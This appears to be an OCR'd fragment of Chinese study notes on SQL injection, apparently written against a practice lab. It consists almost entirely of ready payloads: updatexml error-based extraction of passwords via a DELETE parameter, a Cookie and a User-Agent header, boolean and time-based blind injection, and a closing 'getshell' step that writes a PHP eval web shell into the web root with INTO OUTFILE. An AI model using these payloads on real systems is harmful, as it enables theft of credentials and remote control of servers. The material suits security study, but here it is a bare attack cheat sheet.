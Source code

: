    > 同上

   

   **delete注入**

   1 or updatexml(1,concat(0x7e, (select pw from member  limit 1,1)),0)

   

   **基于http header**

   Cookie：` ant[uname]=admin' and updatexml(1,concat(0x7e, (select pw from member  limit 1,1)),0)#`

   User-Agent: ` Firefox' or updatexml(1, concat(ox7e, database()), 0) or ' `

   

   **Sql盲注**

   lucy' and 1=1#

   lucy' and 1=2#

   

   布尔型的盲注：

   ```sql
   lucy' and ascii(substr(database(),1,1))=100#
   ```

   ```sql
   lucy' and ascii(substr(database(),1,1))>113#
   ```

   

   时间的盲注

   ```sql
   lucy' and sleep(5) #
   ```

``` sql
and if(ascii(substr(database(), 2,1))=99, sleep(3), 1)
```

  



#### sql高权限getshell



**前提条件：**

1. 需要知道目标网站绝对路径

2. 目录具有写的权限

3. 需要当前数据库用户开启了secure_file_priv

`select database() into outfile '/var/www/html/1.txt'`

`allen' union select 1,'<?php eval($_GET[w]); ?>' into outfile '/var/www/html/2.php' #`

`site: xxx.com  error`
